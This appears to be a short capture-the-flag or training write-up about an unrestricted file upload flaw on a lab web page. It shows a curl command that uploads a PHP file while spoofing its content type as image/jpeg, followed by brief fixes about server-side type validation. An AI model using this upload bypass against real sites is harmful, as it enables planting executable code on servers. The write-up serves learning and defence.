 # 08-Add_Image_Upload

The upload field can take php file types

## The approach

- Go to http://192.168.42.238/?page=upload  

- Test and upload different types of files and you will notice it accepts other files types apart from just JPG.

## The Exploit #

we use Curl to run our script.sh 
```bash
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@empty.php;type=image/jpeg' http://192.168.101.204/index.php\?page\=upload\#
```


## The solution

- Use strict types when uploading files. Validate file type 
- validate user inputs from back end before proceeding.
